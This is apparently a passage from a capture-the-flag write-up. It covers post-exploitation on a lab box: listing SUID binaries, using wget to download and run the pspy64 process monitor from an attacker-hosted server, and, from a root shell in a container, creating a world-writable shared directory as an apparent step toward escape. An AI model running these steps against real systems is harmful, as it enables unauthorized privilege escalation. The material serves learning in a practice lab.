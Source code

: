 ```bash
/bin/fusermount
/bin/su
```

```bash
connor@pythonplayground:/tmp$ wget http://xx.xxx.xx.xxx:8000/pspy64 -O pspy64
```

```bash
connor@pythonplayground:/tmp$ chmod +x pspy64
```

```bash
connor@pythonplayground:/tmp$ ./pspy64
```

<img width="1175" height="631" alt="image" src="https://github.com/user-attachments/assets/0905d3d4-d87a-4706-952d-d48464a1369f" />

<br>
<br>
<p>

- node</p>

```bash
root@playgroundweb:/mnt/log# ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   2612   604 ?        Ss   xx:xx   0:00 /bin/sh -c node
root         7  3.2  8.3 644816 82060 ?        Sl   xx:xx   2:08 node index.js
root        23  0.0  0.9  13248  9688 ?        S    xx:xx   0:00 python3 scripts
root        24  0.0  0.0   2612   600 ?        S    xx:xx   0:00 /bin/sh -i
```

<br>
<br>

```bash
root@playgroundweb:/mnt/log# mkdir assessment
```

```bash
root@playgroundweb:/mnt/log# chmod 777 assessment/
```

```bash
root@playgroundweb:/mnt/log# ls -la assessment/
total 8
drwxrwxrwx  2 root root 4096 Sep 9 xx:xx .
drwxrwxr-x 10 root  106 4096 Sep 9 xx:xx ..
```

<br>

```bash
connor@pythonplayground:/var/log$ cd assessment
```

```bash
connor@pythonplayground:/var/log/assessment$ ls
```
